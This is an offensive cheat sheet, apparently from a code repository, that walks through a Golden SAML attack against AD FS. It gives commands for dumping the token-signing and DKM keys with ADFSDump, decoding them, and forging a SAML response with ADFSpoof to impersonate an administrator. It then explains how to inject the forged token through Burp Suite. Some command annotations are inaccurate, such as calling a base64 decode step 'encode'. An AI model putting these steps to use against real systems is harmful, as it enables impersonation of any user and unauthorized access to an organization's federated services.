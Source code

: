 # Golden SAML attack

## Tools: ADFSDump, ADFSpoof, ADFSDump-PS

### With this attack, we forge a SAML token that we can use to authenticate to ANY service we want impersonating ANY user within the corporate environment.

### To perform this attack, we’ll need the private key that signs the SAML objects (similarly to the need for the KRBTGT in a golden ticket). For this private key, we don’t need a domain admin access, we only need the AD FS user account.

### For a Golden SAML attack, we need to first compromise the AD FS service account, Then we can use tools such as ADFSDump to extract the required information:

 1) The token signing certificate and its private key

 2) The Distributed Key Manager (DKM) key from Active Directory

 3) The list of services for which the AD FS server is configured to be an identity provider

## Commands:

 - .\ADFSDump.exe (Extract the Distribution Key Manager (DKM) Private Key and the Encrypted Token Signing Key (TKS) as well as the Issuer Identifier and the Relting Party Trust Information as well)

 - cat TKSKey.txt | base64 -d > TKSKey.bin (Encode the TKS Key in base64 format)

 - cat DKMKey.txt | tr -d "-" | xxd -r -p > DKMKey.bin (Convert the DKM Key in Hex format)

 - python3 ADFSpoof.py -b TKSKey.bin DKMKey.bin -s 'ADFS_SERVER' saml2 --endpoint 'https://saml2response.domain.local/adfs/saml/ENDPOINT_URL_FOR_SAML_RESPONSE' --nameidformat 'urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress' --nameid 'Administrator@DOMAIN.LOCAL' --rpidentifier 'https://saml2response.domain.local/RELYING_PARTY_IDENTIFIER_ENDPOINT' --assertions 'SAML assertions to be included in the SAML response.'

### TIP: Refer the format in the tool documentation

### Then browse to:

 - https://saml2response.domain.local/adfs/saml/ENDPOINT_URL_FOR_SAML_RESPONSE

### And capture the POST request in Burpsuite.

### Then token should be included in the body of the request on a form data field typically named:

 - SAMLResponse=INSERT_GOLDEN_SAML_TOKEN_HERE

### Then set the header:

 - Content-Type: application/x-www-form-urlencoded

## AND WE ARE IN!!!

